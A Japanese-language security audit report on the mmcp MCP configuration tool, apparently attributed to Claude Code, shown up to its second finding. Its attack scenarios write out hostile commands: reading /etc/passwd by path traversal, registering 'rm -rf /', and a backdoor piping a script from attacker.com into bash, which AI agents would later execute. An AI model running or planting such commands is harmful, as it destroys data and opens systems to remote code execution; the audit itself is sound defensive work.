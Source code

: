 # mmcp セキュリティ監査レポート

**監査日**: 2025年9月12日  
**監査対象**: mmcp v0.3.2  
**監査者**: Claude Code セキュリティエンジニア

## 概要

mmcpプロジェクト（Model Context Protocol server definitions管理ツール）の包括的なセキュリティ監査を実施しました。本レポートでは発見された脆弱性、リスク評価、および推奨対策を報告します。

## 🚨 **重要度：高**

### 1. ディレクトリトラバーサル攻撃
**場所**: `src/lib/config.ts:34-43`

**脆弱性の詳細**: 
- `--config`オプションで任意のファイルパスを指定可能
- パスの正規化や検証が不十分
- 相対パス（`../`）を使用したディレクトリトラバーサル攻撃が可能

**攻撃シナリオ**:
```bash
# システムファイルの読み取り
mmcp add --config ../../../etc/passwd -- malicious cmd

# 任意の場所への設定ファイル作成/上書き
mmcp add --config /tmp/malicious.json -- evil "rm -rf /"
```

**影響**: 
- システムファイルの読み取り・上書き
- 権限昇格の可能性
- 設定ファイル汚染

### 2. 間接的コマンドインジェクション
**場所**: 各エージェントアダプター（`src/lib/agents/`）

**脆弱性の詳細**:
- mmcpは任意のコマンドを検証せずに設定ファイルに書き込み
- AIエージェント（Claude Code, Claude Desktop等）が後でこれらのコマンドを実行
- 間接的な任意コード実行が可能

**攻撃シナリオ**:
```bash
# 危険なコマンドの登録
mmcp add -- evil "rm -rf /" "--dangerous-flag"

# バックドア的なコマンドの登録
mmcp add -- backdoor "curl -s http://attacker.com/payload.sh | bash"
```
